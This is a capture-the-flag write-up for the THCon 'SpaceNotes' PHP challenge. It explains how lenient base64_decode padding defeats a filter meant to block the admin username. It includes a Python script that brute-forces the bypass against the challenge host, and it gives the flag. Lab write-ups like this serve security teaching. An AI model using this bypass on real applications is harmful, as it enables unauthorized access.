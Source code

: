 ## SpaceNotes

### Description

We've stumbled upon a straightforward web application of Dark Backdoor that allows note storage without requiring passwords! Sounds too good to be true, doesn't it? Think you can access the admin note ? If you can get us this access we may be able to understand how they broke into our satelites and maybe regain control over these !

### Solution

The challenge is a simple web app to see the notes from other users.
Our goal is to see the not that the admin posted which contains the flag:

```php
<?php if (!isset($_GET["username"])): ?>
            <h1>SpaceNotes</h1>
            <p>Specify a username in base64 to access your notes.</p>
            <p>Example: <a href="/?username=<?php echo base64_encode("toto"); ?>">toto</a></p>
            <p>🛑 Admin notes are restricted 🛑</p>
        
        <?php else: ?>
            <?php if ($decodedUsername === ""): ?>
                <h1>Error</h1>
                <p class="error">Invalid username</p>

            <?php elseif ($decodedUsername === "admin"): ?>
                <h1>🟢 Welcome admin! 🟢</h1>
                <p><?php echo $flagMessage; ?></p>

            <?php else: ?>
                <h1>🟠 Welcome <?php echo htmlspecialchars($decodedUsername); ?>! 🟠</h1>
                <p>Nothing here 🚀</p>
                
            <?php endif; ?>
```

The way we specify users is by using their base64 representation. 
However it filters when we use the base64 of admin which is `YWRtaW4`, additionally it filters padding with equals(`=`):

```php
if (isset($_GET["username"])) {
    $encodedUsername = str_replace("=", "", $_GET["username"]);

    // Username is not admin
    if ($encodedUsername === "YWRtaW4") {
        $decodedUsername = "";
    } else {
        $decodedUsername = base64_decode($encodedUsername);

        // Check if the username contains only alphanumeric characters and underscores
        if (!preg_match('/^[a-zA-Z0-9_]+$/', $decodedUsername)) {
            $decodedUsername = "";
        }
    }
}
```

It seems impossible, however looking at the documentation of base64_decode php function, <https://www.php.net/manual/en/function.base64-decode.php>, we found something interesting: 

*Note, that padding characters are not limited to "=". any character(s) at the end of the string that cannot be decoded will be interpreted as padding. if $strict is set to true, of course padding characters are limited to base64 characters.* 

<https://www.php.net/manual/en/function.base64-decode.php#129170>

That means that we can try to use other characters in order to add padding and not be equal to `YWRtaW4`.
I have developed a script to bruteforce using every ascii character and it was successful:

```python
import string
import base64 
import requests


for i in string.printable:
    sample_string = "admin"+i
    sample_string_bytes = sample_string.encode("ascii") 
    base64_bytes = base64.b64encode(sample_string_bytes) 
    base64_string = base64_bytes.decode("ascii") 
    res = requests.get(f"http://chall.ctf.thcon.party:32884/?username={base64_string}")
    if "Invalid username" not in res.text and "Nothing here" not in res.text:
        print(res.text)

```

Flag: `THCon{pHP_is_S0_w3ird_d00d}`